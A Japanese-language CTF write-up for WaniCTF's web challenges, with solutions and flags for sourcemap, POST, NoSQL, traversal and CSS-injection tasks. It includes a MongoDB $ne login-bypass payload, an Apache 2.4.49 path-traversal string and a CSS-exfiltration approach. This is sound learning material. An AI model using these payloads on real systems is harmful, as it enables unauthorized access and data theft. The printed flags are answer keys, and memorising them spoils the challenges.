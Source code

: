 # WaniCTF
睡眠という名前でました。  
こういうのあるとテンション上がりますね。  
![web](img/wanCtf.png)
# 問題
- sourcemap
- POST Challenge
- NoSQL
- traversal
- Styled memo

# sourcemap
問題名の通りソースマップを見ると書いてある。  
`FLAG{d3v700l_c4n_r3v34l_50urc3_c0d3_fr0m_50urc3m4p}`
# POST Challenge
- `data=hoge`  ->y0u
- UA に `Mozilla/5.0` & `data=hoge` -> ar3
- `data?.hoge` なので json `{"data":{"hoge":"fuga"}}` -> http
- `fuga==null` なので json `{"hoge":1,"fuga":null}` -> p0st
- `files?.data?.md5==md5file("public/images/wani.png")` なので、wani.png を投げればよい。-> m@ster!
`FLAG{y0u_ar3_http_p0st_m@ster!}`
# NoSQL


login の部分の nosql のクエリが適切に処理されていないことと、 `app.use(express.json());`が app.js 書かれているので、 
以下のような、json を投げる
`{"username": {"$ne": null}, "password": {"$ne": null} }`
```js
router.post("/", async function (req, res) {
  const client = new MongoClient(uri);
  try {
    if (!req.body.username || !req.body.password) {
      throw "error";
    }

    await client.connect();
    const user = await client.db("nosql").collection("users").findOne({
      username: req.body.username,
      password: req.body.password,
    });
    if (!user) {
      throw "error";
    }
    //snippet
```
`FLAG{n0_sql_1nj3ction}`

# traversal
配布されたファイルの web の Dockerfile を見ると `FROM httpd:2.4.49` となっているので、最近の CVE が使えることがわかる。  
>
それに加え、nginx の config をみると、`merge_slashes off;`になっている。  
また apache の config が `DocumentRoot "/usr/local/apache2/htdocs"` であるので   
`////cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt` というパスを送る。  

`FLAG{n61nx_w34k_c0nf16_m3r63_5l45h35}`

# Styled memo

配布ファイルの `master/views.py` をみると flag が メモの content であることがわかる。  
次に css file のupload の部分をみると、css　ファイルのパスにユーザー名が含まれていることがわかる。  
これを利用して、admin に任意の css をあてることができる。  
css を利用して flag を読み取る。

このツールを使う。
https://github.com/d0nutptr/sic

`FLAG{CSS_Injecti0n_us1ng_d1r3ctory_tr@versal}`
